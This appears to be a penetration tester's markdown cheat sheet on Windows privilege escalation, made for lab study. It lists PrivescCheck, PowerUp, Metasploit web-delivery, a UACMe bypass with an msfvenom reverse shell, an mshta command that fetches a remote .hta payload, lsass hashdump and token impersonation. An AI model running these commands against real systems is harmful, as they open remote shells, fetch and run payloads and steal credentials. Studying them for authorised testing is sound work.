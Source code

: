 Also check out [Host-based-attacks > Windows > Credential Dumping](../Host%20Based%20Attacks/win-credsdump.md)

# Scripts

- https://github.com/itm4n/PrivescCheck (may find winlogon passwords)
- https://assets.ine.com/labs/ad-manuals/walkthrough-2404.pdf
- with winlogon creds, use psexec smb to login with the creds
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`

# Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- `./windows-exploit-suggester.py --update` - generates xls to use in nxt step
- `./windows-exploit-suggester.py --database <xlsfile>` --systeminfo <txt_file_systeminfo_output>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell


# Metasploit Module:

- check [Webdelivery](../Exploitation/win-webdelivery.md)
- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif
- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# UACBypass - UACMe: need local admin account access

- exploit/windows/local/bypassuac_injection

  ![bypassuac_injection](./images/privesc-01.png)
  ![bypassuac_injection](./images/privesc-02.png) 
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> 
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

  ![impersonate_prereq](./images/privesc-03.png)
  ![impersonate_prereq](./images/privesc-04.png)

- load icognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>
	
  ![impersonate](./images/privesc-05.png)
  ![impersonate](./images/privesc-06.png)
  

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	  $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
  	```
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: `mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta`

# Metasploit module

- exploit/windows/local/bypassuac_injection
	- set target 1 : set correct target based on arch and run